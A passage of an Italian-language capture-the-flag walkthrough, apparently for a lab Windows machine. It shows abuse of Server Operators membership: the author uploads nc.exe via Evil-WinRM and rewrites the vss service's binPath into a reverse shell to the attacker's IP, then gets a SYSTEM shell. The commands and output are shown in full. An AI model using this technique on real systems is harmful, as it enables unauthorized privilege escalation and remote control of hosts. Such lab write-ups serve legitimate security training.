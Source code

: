 ```shell
Global Group memberships     *Domain Users
The command completed successfully.
```

Possiamo notare che l'host fa parte nei **Print Operators** ma sopratutto dei **Server Operators**. I membri di questo gruppo possono far partire / fermare servizi. Modifichiamo un servizio per ottenere una reverse shell.

### Reverse shell

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload "/usr/share/windows-resources/binaries/nc.exe"
                                        
Info: Uploading /usr/share/windows-resources/binaries/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 79188 bytes of 79188 bytes copied
                                        
Info: Upload successful!
```

> Per eseguire questo comando bisogna essere sulla root directory quando ci si connette con `evil-rinrm`
{: .prompt-tip }

Procediamo ad avviare il servizio.

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.9 1234"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:
```

> La shell è instabile e durerà pochi secondi. Bisogna essere rapidi!
{: .prompt-info }

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.108 50670
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users\Administrator

09/27/2021  04:40 AM    <DIR>          .
09/27/2021  04:40 AM    <DIR>          ..
05/20/2021  12:10 PM    <DIR>          3D Objects
05/20/2021  12:10 PM    <DIR>          Contacts
09/27/2021  04:22 AM    <DIR>          Desktop
```